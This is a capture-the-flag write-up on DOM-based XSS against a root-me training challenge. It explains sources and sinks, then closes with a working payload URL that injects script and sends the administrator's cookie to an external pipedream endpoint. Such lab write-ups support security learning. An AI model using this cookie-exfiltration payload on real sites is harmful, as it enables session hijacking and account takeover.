

# Introduction

**DOM-based** XSS vulnerabilities usually arise when JavaScript takes data from an attacker-controllable source, such as the URL, and passes it to a sink that supports dynamic code execution, such as eval() or innerHTML. This enables attackers to execute malicious JavaScript, which typically allows them to hijack other users' accounts.

## What is the DOM?
The Document Object Model (DOM) is a convention used to represent and work with objects in an HTML document (as well as in other document types).

All HTML documents have an associated DOM that consists of objects, which represent document properties from the point of view of the browser. When a client-side script is executed, it can use the DOM of the HTML page where the script runs. The script can access various properties of the page and change their values.


To deliver a DOM-based XSS attack, you need to place data into a source so that it is propagated to a sink and causes execution of arbitrary JavaScript.

## Important information :warning:
The most common source for DOM XSS is the URL, which is typically accessed with the window.location object. An attacker can construct a link to send a victim to a vulnerable page with a payload in the query string and fragment portions of the URL.

In certain circumstances, such as when targeting a 404 page or a website running PHP, the payload can also be placed in the path. 

You can find more information about it [here](https://owasp.org/www-community/attacks/DOM_Based_XSS) or [in the portSwigger webpage](https://portswigger.net/web-security/cross-site-scripting/dom-based)

### Hands on! :fire:

In this example, we found ourselves in a challenge from root-me: a cybersec training website.

This challenge greets us with a game. This game requires us to input a number into a form, then it's compared to a random number. If it comes to be the same number, a green message appears, otherwise a red message appears.

We can check this behaviour by entering some random number and check the source with developer tools. For this example I will input the number **"5"**.



#### Analysis
We can see in the screenshot above that the returned *red* answer, because our number is different than 71.043452......

Another **really** important thing to bear in mind is that our input appears reflected within the `script` tags, that means it's a nice candidate to inject malicious code, let's see if we can put some arbitrary code inside it.

#### Injection test 
Let's try to inject some Javascript `debugger`:


And we can see that our code has been successfuly injected. 

#### Payload creation and execution 

So now, I'm going to inject a payload to steal the administrator's cookie, there is a report page where we assume the admin will try to answer every request we send him.

My payload is going to send a request to a public endpoint (It was called requestbin, now it's called pipedream, you can use any endpoint you want for sure), and concat the admin's cookie in the query param. Wait for some minutes untill we receive a response....
```
http://challenge01.root-me.org/web-client/ch32/index.php?number=%27;document.location=%22https://enrqxs92mtm1n.x.pipedream.net?cookie=%22.concat(document.cookie);%27
```

Aaand... there it is! 


We have captured our :sparkles: flag! :sparkles:

Thank you for your time and see you next time!

:smile: :sunset: